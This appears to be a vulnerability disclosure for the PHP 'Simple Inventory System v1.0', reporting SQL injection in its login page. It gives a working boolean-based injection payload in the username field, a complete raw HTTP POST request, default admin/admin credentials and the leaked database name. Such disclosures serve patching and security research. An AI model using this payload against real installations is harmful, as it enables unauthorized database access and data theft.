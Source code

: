 # Simple Inventory System v1.0 by argie has SQL injection

The password for the backend login account is: admin/admin

vendors: https://www.sourcecodester.com/php/4481/simple-inventory-system-using-phpmysql.html

Vulnerability File: /inventory/login.php

Vulnerability location: /inventory/login.php

[+] Payload: username=admi' or length(database()) =8--+&password=admin&submit=Login // Leak place ---> username

Current database name: liveedit,length is 8


```sql
POST /inventory/login.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/inventory/index.php
Cookie: PHPSESSID=limt35893on9omuk2tgcc85iuj
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 70

username=admi' or length(database()) =8--+&password=admin&submit=Login
```


When length (database (()) = 7, Content-Length: 4;location: index.php
![image](https://user-images.githubusercontent.com/54017627/169197447-c2b7df1c-601f-4a96-a35b-5062c6eeb6aa.png)

When length (database (()) = 8, Content-Length: 4;location: tableedit.php

![image](https://user-images.githubusercontent.com/54017627/169197402-8421a59d-fae9-4cd7-967e-7e8c8187ea85.png)

![image](https://user-images.githubusercontent.com/54017627/169197649-91bfe53e-5f2e-4c27-90c7-d28251a2dbd8.png)

